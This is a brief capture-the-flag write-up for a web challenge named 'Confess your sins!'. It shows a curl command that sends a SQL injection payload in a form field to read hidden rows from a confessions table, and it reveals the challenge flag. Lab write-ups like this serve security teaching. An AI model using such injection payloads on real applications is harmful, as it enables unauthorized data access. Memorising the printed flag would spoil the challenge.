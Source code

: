 #### Challenge:

Confess your sins! 
http://guppy.utctf.live:5321
By Emma (Cybercowboy on Discord)

---

#### Solution:

- after inspecting the web page we can see that the main image is referenced as `images/img2.png` trying the fetch `images/img1.png` reveals `SQL` injection possibilities

![img1](./img1.png ":ignore")


```bash
curl 'http://guppy.utctf.live:5321/confess' -X POST --data-urlencode 'confession=\\"); select text from confessions limit 2; --' 2>/dev/null | grep utflag
```

---

<details><summary>FLAG:</summary>

```
utflag{thanks_for_confessing_your_sins}
```

</details>
<br/>

